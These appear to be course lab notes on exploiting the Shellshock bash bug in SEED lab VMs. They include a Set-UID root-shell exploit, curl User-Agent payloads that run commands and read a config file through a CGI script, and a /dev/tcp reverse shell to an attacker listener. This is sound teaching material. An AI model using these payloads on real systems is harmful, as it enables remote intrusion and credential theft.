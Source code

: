 # Shellshock Attack

Some snippets below:

## Shell Functions

```bash
foo() { echo "Inside function"; }
declare -f foo # show the function def
foo
unset -f foo
declare -f foo # show the function def
```

```bash
foo() { echo "hello world"; }
declare -f foo # show the function def
foo
export -f foo
bash
foo
```

```bash
foo='() { echo "hello world"; }'
echo $foo
declare -f foo # show the function def
export foo
bash_shellshock # run vuln. version of bash

echo $foo
declare -f foo # show the function def
foo
```

## The Shellshock Vuln.

```bash
foo='() { echo "hello world"; }; echo "extra";'
echo $foo
export foo
bash_shellshock # run vuln. version of bash

echo $foo
declare -f foo # show the function def
foo
```

## Shellshock Attack on Set-UID Programs

```bash
sudo ln -sf /bin/bash_shellshock /bin/sh # link sh to the vuln. version of bash
cat vul.c
gcc vul.c -o vul
./vul
sudo chown root vul
sudo chmod 4755 vul
./vul
export foo='() { echo "hello world"; }; echo /bin/sh'
./vul # get the root shell! 
sudo ln -sf /bin/dash /bin/sh # reset sh
```

## Shellshock Attacks on CGI Programs

### Pro Tip

You will likely need code/CGI scripts from the course code repo. 
You can easily fetch code from the website using `wget`. 

```bash
# Use wget to get a file from our course repo & save to the default folder for the Apache webserver
sudo wget -O /usr/lib/cgi-bin/myenv.cgi https://raw.githubusercontent.com/traviswpeters/csci476-code/master/03_shellshock/env.cgi
sudo chmod 755 /usr/lib/cgi-bin/myenv.cgi # make it executable
ls -al /usr/lib/cgi-bin/ # verify permissions
cat /usr/lib/cgi-bin/myenv.cgi # verify file content
```

##### Common Gotchas

A couple of issues that have come up regarding students trying to invoke CGI scripts:

0. You aren't using the official SEED VM (you should be!) ;-)
1. File not in `/usr/lib/cgi-bin/`
2. Request made to a file that does not exist in `/usr/lib/cgi-bin/`
3. File is not executable
4. File is empty
5. If all else fails, try rebooting your VM.
   Mucking around with your VM in the previous lab(s) may have broken something.


### Setup

Put this script (`test.cgi`) in `/usr/bin/cgi-bin/`

```bash
#!/bin/bash_shellshock

echo "Content-type: text/plain"
echo 
echo 
echo "Hello World"
```

### Using `curl`

Use `curl` to interact with the CGI script

```bash
curl http://10.0.2.69/cgi-bin/test.cgi
```

### User Data in CGI Scripts

```bash
#!/bin/bash_shellshock

echo "Content-type: text/plain"
echo 
echo "*** Environment Variables ***"
strings /proc/$$/environ
```

```bash
curl -v http://10.0.2.69/cgi-bin/test.cgi
```

Use `curl -A ...` to change the user-agent field.

```bash
curl -A "test" -v http://10.0.2.69/cgi-bin/test.cgi
```

### Launching the attack

```bash
curl -A "() { echo hello; }; 
         echo Content-type: text/plain; 
         echo; /bin/ls -l"
         http://10.0.2.69/cgi-bin/test.cgi
```

```bash
curl -A "() { echo hello; }; 
         echo Content-type: text/plain; 
         echo; 
         /bin/cat /var/www/CSRF/Elgg/elgg-config/settings.php"
         http://10.0.2.69/cgi-bin/test.cgi
```

### Reverse Shell

```bash
nc -lv 9090
ifconfig
```

```bash
/bin/bash -i > /dev/tcp/10.0.2.70/9090 0<&1 2>&1
```

```bash
curl -A "() { echo hello; }; 
         echo Content-type: text/plain; 
         echo; 
         echo; 
         /bin/bash -i > /dev/tcp/10.0.2.70/9090 0<&1 2>&1"
         http://10.0.2.69/cgi-bin/test.cgi
```

```bash
nc -lv 9090
id
```

##### From class:

Follow instructions in Appendices in the SEED setup manual (lab00) to see how to clone your existing SEED VM and properly configure the NAT Network.

Step 1: 
```bash
# start netcat server on "attacker" machine
seed@VM(10.0.2.15):~$ nc -lv 9090
Listening on [0.0.0.0] (family 0, port 9090)
```

Step 2: 
```bash
# experiment with ideal payload on "victim" machine (i.e., a remote server)
seed@VM(10.0.2.7):~$ /bin/bash -i > /dev/tcp/10.0.2.15/9090 0<&1 2>&1
```

At this point, you have a reverse shell setup! 
You can now specify commands from the "attacker" VM, 
which are sent over the network connection and run on the victim's machine; 
the results are also sent back over the network connection to the "attacker" VM. 
In this way, you have shell access to the victim VM! 

The question then is: how do you get the victim to execute your payload?!

**NOTE:** The IP addresses are specific to my configuration. 
You should use `ifconfig` to verify the IP addresses on your VMs. 
